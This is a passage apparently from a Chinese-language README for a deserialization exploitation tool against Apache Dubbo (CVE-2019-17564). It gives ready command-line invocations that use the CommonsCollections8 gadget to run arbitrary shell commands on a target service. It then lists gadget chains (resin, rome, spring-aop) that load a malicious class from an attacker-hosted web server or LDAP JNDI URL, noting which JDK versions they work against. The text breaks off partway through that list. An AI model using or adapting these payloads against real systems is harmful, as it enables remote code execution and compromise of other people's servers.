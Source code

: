 例（测试dubbo在使用http协议+java反序列化，dubbo < 2.7.5前使用http协议，后续改为了jsonrpc）CVE-2019-17564：
```
--target
127.0.0.1:8080/org.apache.dubbo.samples.http.api.DemoService
--protocol
http
--serialization
java
--gadget
CommonsCollections8
--args
/System/Applications/Calculator.app/Contents/MacOS/Calculator
```
例（多参数的使用）：
```
--target
127.0.0.1:8080/org.apache.dubbo.samples.http.api.DemoService
--protocol
http
--serialization
java
--gadget
CommonsCollections8
--args
'touch /tmp/dubbo.test'
```
或
```
--target
127.0.0.1:8080/org.apache.dubbo.samples.http.api.DemoService
--protocol
http
--serialization
java
--gadget
CommonsCollections8
--args
'/bin/bash'
--args
'-c'
--args
'touch /tmp/dubbo.test'
```
## gadget列表

---------------------------------------------------------------------------------------------------------
1. 名称：resin
2. 需要入参数量：2
3. 参数说明：arg[0]=恶意类所在web服务器ip，arg[1]=恶意类类名，此处需要恶意类无包名编译出来的
4. 序列化类型：hessian
5. 依赖：com.caucho:quercus:*
---------------------------------------------------------------------------------------------------------
1. 名称：rome
2. 需要入参数量：1
3. 参数说明：arg[0]=ldap引用外部class地址，例：ldap://127.0.0.1:43658/Calc（ldap协议的JNDI服务可打jdk8u191及以下版本，大于jdk8u191需要使用gadget字节码）
4. 序列化类型：hessian
5. 依赖：com.rometools:rome:*
---------------------------------------------------------------------------------------------------------
1. 名称：spring-aop
2. 需要入参数量：1
3. 参数说明：arg[0]=ldap引用外部class地址，例：ldap://127.0.0.1:43658/Calc（ldap协议的JNDI服务可打jdk8u191及以下版本，大于jdk8u191需要使用gadget字节码）